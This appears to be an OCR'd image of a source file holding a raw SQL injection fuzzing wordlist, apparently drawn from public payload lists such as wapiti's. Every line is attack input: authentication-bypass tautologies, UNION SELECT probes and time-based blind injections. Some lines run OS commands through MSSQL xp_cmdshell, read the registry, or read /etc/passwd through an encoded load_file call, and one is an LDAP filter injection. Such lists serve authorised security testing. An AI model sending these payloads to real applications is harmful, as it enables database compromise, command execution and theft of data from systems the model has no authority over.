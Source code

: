 ```
exec sp
'; exec master..xp_cmdshell
'; exec xp_regread
t'exec master..xp_cmdshell 'nslookup www.google.com'--
--sp_password

\x27UNION SELECT
' UNION SELECT
' UNION ALL SELECT
' or (EXISTS)
' (select top 1
x' OR full_name LIKE '%Bob%
; execute immediate 'sel' || 'ect us' || 'er'
'; exec master..xp_cmdshell 'ping 172.10.1.255'--

'%20or%20''='
'%20or%20'x'='x
')%20or%20('x'='x
)%20or%20('x'='x
%20or%201=1

benchmark(10000000,MD5(1))#
";waitfor delay '0:0:__TIME__'--
1) or pg_sleep(__TIME__)--
||(elt(-3+5,bin(15),ord(10),hex(char(45))))
"hi"") or (""a""=""a"
" or sleep(__TIME__)#
pg_sleep(__TIME__)--
*(|(objectclass=*))
declare @q nvarchar (200) 0x730065006c00650063 ...
 or 0=0 #
1) or sleep(__TIME__)#
) or ('a'='a
; exec xp_regread
@var select @var as var into temp end --
1)) or benchmark(10000000,MD5(1))#
(||6)
"a"" or 3=3--"
" or benchmark(10000000,MD5(1))#
# from wapiti
 or 0=0 --
1 waitfor delay '0:0:10'--
 or 'a'='a
hi or 1=1 --"
or a = a
) or sleep(__TIME__)='
)) or benchmark(10000000,MD5(1))#
hi' or 'a'='a
21 %
 or 1=1
 or 2 > 1
")) or benchmark(10000000,MD5(1))#
hi') or ('a'='a
 or 3=3
));waitfor delay '0:0:__TIME__'--
a' waitfor delay '0:0:10'--
1;(load_file(char(47,101,116,99,47,112,97,115, ...
or%201=1
1 or sleep(__TIME__)#
or 1=1
 and 1 in (select var from temp)--
 or '7659'='7659
 or 'text' = n'text'
```